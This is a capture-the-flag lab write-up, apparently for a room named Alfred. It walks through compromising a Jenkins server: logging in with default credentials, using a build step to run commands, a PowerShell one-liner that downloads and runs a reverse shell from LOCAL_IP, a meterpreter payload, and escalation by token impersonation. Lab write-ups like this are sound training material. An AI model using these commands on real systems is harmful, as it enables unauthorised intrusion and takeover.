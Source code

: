 # Enumeration

We start by using autorecon to quickly enumerate the ports and services.
`autorecon 10.10.113.61`
![dd9a13071c8461374b509e37a2a4db10.png](/Alfred/_resources/dd9a13071c8461374b509e37a2a4db10-1.png)

For more details, we can either check the logs given by the autorecon output, or we can run nmap:
`nmap -T5 -sC -A --osscan-guess --version-all -Pn -p 80,3389,8080 10.10.113.61`
![d2a50d4cf74f5a244a7680b0df2a2150.png](/Alfred/_resources/d2a50d4cf74f5a244a7680b0df2a2150-1.png)

We find http running on port 80. Going to http://10.10.113.61 gives us:

![267168277d1f6e20a4463412e48bd9ae.png](/Alfred/_resources/267168277d1f6e20a4463412e48bd9ae-1.png)

Nothing notable appears in the page source. Navigating instead to 10.10.113.61:8080 gives a Jenkins login page:

<center>

![783d158db4d546b2ab0ee049ae1b578c.png](/Alfred/_resources/783d158db4d546b2ab0ee049ae1b578c-1.png)

</center>

Once again, the page source doesn't reveal much. Trying the default credentials admin:admin gets us into the Jenkins dashboard:

<center>

![a527de0ee349e6fcddcbed81db4914a8.png](/Alfred/_resources/a527de0ee349e6fcddcbed81db4914a8-1.png)

</center>

We're looking for a feature which allows us execute commands on the underlying system. At the bottom of the webpage, we see an active build named "project":

<center>

![099c38f39b1e062b9fc7d6a99fdb0aca.png](/Alfred/_resources/099c38f39b1e062b9fc7d6a99fdb0aca-1.png)

</center>

Navigating to the configuration settings for this project, we find the following relevant build step:

<center>

![df922b933258d49ab554fed97c44158e.png](/Alfred/_resources/df922b933258d49ab554fed97c44158e-1.png)

</center>

This looks promising! Notice that `whoami` is the default command listed here. We can verify that this works by navigating to the project homepage, clicking on "Build Now", and then viewing the console output for build #2:

<center>

![797385c50a81e61038bb31d4f5b2e491.png](/Alfred/_resources/797385c50a81e61038bb31d4f5b2e491-1.png)

![e97e8388278e65592a74888c08abfb87.png](/Alfred/_resources/e97e8388278e65592a74888c08abfb87-1.png)

</center>

<br>

# Exploitation

We will make use of the [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) provided in the exerise. We first set up a web server on port 9999:

<center>

![d135c1b5422b75eb6d5b67c8c0f4a092.png](/Alfred/_resources/d135c1b5422b75eb6d5b67c8c0f4a092-1.png)

</center>

Set up a netcat listener on a different port with ``nc -lvnp 8888`` then execute the following command

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://LOCAL_IP:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress LOCAL_IP -Port 8888
```

using the feature we found in the enumeration phase. Our netcat listener will catch the reverse shell, giving us initial access to the machine.

<center>

![1572bfd20feeccdf3a2075f2160176fe.png](/Alfred/_resources/1572bfd20feeccdf3a2075f2160176fe-1.png)

</center>

Digging around, we eventually find the user.txt file in ``C:\Users\bruce\Desktop``.

<center>

![9ca6197a960a87ec9973d760e8b3c825.png](/Alfred/_resources/9ca6197a960a87ec9973d760e8b3c825-1.png)

</center>

Using ``type user.txt`` gives us our flag.

As part of Task 2, we are asked to switch to a meterpreter shell in order to facilitate easier privilege escalation. We generate an x86-64 reverse shell using msfvenom:

<center>

![00cf123b41d92301f44b5cc4ab6244ba.png](/Alfred/_resources/00cf123b41d92301f44b5cc4ab6244ba-1.png)

</center>

Note that this gives us the answer to the only question in Task 2. We download the .exe file on the target machine using the same technique used in Task 1. Now set up a handler in Metasploit with ``use exploit/multi/handler`` with the following options:

<center>

![e18242f0bff037e0f026b24a82b01662.png](/Alfred/_resources/e18242f0bff037e0f026b24a82b01662-1.png)

</center>

Now ``run``  to start the reverse TCP handler. On our target machine, we navigate to the directory containing our msfvenom payload and execute  ``Start-Process task2shell.exe`` . This gives us a meterpreter session:

<center>

![aeab9f9383a0bda9bdecac00b6f03c87.png](/Alfred/_resources/aeab9f9383a0bda9bdecac00b6f03c87-1.png)

</center>

(Note: The target IP is a bit different here, as I had to reset the machine.)

<br>

# Post-exploitation

With our upgraded meterpreter shell, we can now try to escalate privileges. The main technique used here is that of [token impersonation](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens). Start by using ``shell powershell`` within our meterpreter shell. Running ``whoami /priv`` gives us a list of privileges and their states:

<center>

![8c6e13bcd9ca329caaf95caf839ca559.png](/Alfred/_resources/8c6e13bcd9ca329caaf95caf839ca559-1.png)

</center>

Note that a few privileges are enabled. Exit out to meterpreter and use the incognito module, then use ``list_tokens -g`` to list all available delegation and impersonation tokens.

<center>

![d7e82c70ea426de69a6169973870ebb6.png](/Alfred/_resources/d7e82c70ea426de69a6169973870ebb6-1.png)

</center>

Since the BUILTIN\Administrators token is available, we can impersonate it:

<center>

![7f63634cce1c105e8dcc5fe64050eb8a.png](/Alfred/_resources/7f63634cce1c105e8dcc5fe64050eb8a-1.png)

</center>

Using ``getuid`` confirms that we have successfully impersonated the above user, which answers the third question of Task 3. Next, we want to migrate to a process with the correct permissions. Using ``ps`` gives us some possibilities:

<center>

![87307fc3f9141c3f191b71b29ed05ae4.png](/Alfred/_resources/87307fc3f9141c3f191b71b29ed05ae4-1.png)

</center>

Migrate to the services.exe process using `migrate 668`. This gives us the correct permissions. We can now `cd` into the config directory and `cat root.txt` to get the final flag. Alternatively, we can drop into a shell and `type root.txt`.

<center>

![8cc2de1e9c169473bb79a83fc6ca9c81.png](/Alfred/_resources/8cc2de1e9c169473bb79a83fc6ca9c81-1.png)

</center>
